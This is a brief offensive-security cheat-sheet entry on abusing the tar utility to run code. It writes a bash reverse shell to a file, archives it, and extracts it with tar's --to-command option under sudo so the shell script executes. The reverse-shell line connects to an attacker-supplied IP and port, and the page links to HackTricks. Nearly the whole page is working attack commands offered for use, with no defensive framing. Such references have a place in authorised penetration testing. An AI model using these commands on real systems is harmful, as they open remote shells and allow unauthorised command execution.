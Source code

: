 # Tap Archive

## 01 - Common Files

```
/usr/bin/tar
```

## 02 - Execute Payloads

```
$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/<IP>/<PORT> 0>&1' > payload.sh
tar -cvf payload.tar payload.sh
sudo -u $USER tar -xvf payload.tar --to-command /bin/bash
```

---
## References

### Hacktricks

- [Hacktricks: Shells Linux](https://book.hacktricks.wiki/en/shells/shells/linux.html)